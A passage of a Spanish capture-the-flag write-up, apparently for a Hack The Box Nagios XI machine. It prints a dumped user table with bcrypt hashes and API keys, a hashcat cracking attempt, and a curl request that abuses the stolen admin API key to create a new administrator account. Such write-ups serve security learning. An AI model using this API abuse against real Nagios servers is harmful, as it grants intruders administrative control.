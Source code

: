 ```bash
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1746724206   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 1              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1746725987   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 8              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

Encontramos información de dos usuarios con los hashes en formato bcrypt:

```bash
nagiosadmin: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C
svc: $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK 
```

Intentamos crackear estos hashes con hashcat y rockyou  sin éxito:

```bash
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt 
```

Hay otro campo más que puede ser interesante de la información que hemos obtenido con el dump de la tabla xi_users, el API KEY

```bash
nagiosadmin: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
svc: 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK
```


Podemos usar el api key para intentar crear un nuevo usuario administrador como se indica en este exploit https://www.exploit-db.com/exploits/44969


Usamos el siguiente payload:
```bash
curl -k --silent "http://nagios.monitored.htb/nagiosxi/api/v1/system/user&apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=pentester&password=P@ssw0rd123&name=TCG&email=tcg@localhost&auth_level=admin"
{"success":"User account pentester was added successfully!","user_id":6}
```

![image](https://github.com/user-attachments/assets/e938940d-c8ff-4ac0-b34c-f3b735fa3e99)


Logramos acceder con nuestra nueva cuenta:

![image](https://github.com/user-attachments/assets/a357ec9b-0d90-459c-a8e3-ad7021957696)
